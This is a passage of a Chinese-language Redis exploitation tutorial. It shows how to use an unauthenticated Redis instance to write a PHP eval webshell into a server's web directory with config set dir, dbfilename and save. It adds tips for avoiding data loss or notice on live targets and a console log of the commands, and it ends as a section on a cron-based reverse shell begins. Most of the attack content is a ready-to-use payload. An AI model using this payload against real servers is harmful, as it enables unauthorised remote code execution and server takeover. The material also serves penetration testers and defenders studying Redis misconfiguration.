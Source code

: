 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014b7203ea01a6c481.png)

<a class="reference-link" name="%E5%86%99%E5%85%A5Webshell"></a>**写入Webshell**

环境：当目标机器存在Web应用服务器。

这种方法，只要知道 web 绝对路径并且有相应的权限就可以写 webshell 拿到服务器权限。

Redis可以通过`config`和`set`命令向固定路径的文件写入内容，这个功能被利用来向指定文件写入恶意内容，特别是当Redis以`root`或`www-data`权限运行的情况下。
- 组合payload写入Webshell
```
flushall
set x '&lt;?php eval($_GET["Q"]);?&gt;'
config set dir /var/www/html/upload
config set dbfilename test.php
save
```
- 攻击效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ac83914fad64b842.png)

PS：这里注意`flushall`危险操作，会清空所有缓存数据。

真实环境中肯定不能这样做直接清空数据库缓存数据，为了避免这种情况最好的手段是切换数据库，默认情况下redis有16个数据库默认连接选择的是第一个数据库，这个时候可以选择切换数据库避免`flushall`危险操作，同时对于`keys *`操作也尽量避免，当缓存数据很大的时候很容易造成环境崩溃。
- 指令替换思想
```
flushall---》切换数据库
keys *---》dbsize
```
- 效果
```
192.33.6.129:6379&gt; config get databases
1) "databases"
2) "16"
192.33.6.129:6379&gt; select 10
OK
192.33.6.129:6379[10]&gt; set Q testing
OK
192.33.6.129:6379[10]&gt; del Q
(integer) 1
192.33.6.129:6379[10]&gt; DBSIZE
(integer) 0
192.33.6.129:6379[10]&gt; SELECT 0
OK
192.33.6.129:6379&gt;
```

<a class="reference-link" name="%E5%86%99%E5%85%A5%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E5%8F%8D%E5%BC%B9Shell"></a>**写入定时任务反弹Shell**

环境：当目标机器不存在Web应用服务器，也就是Redis与Web服务器分离。
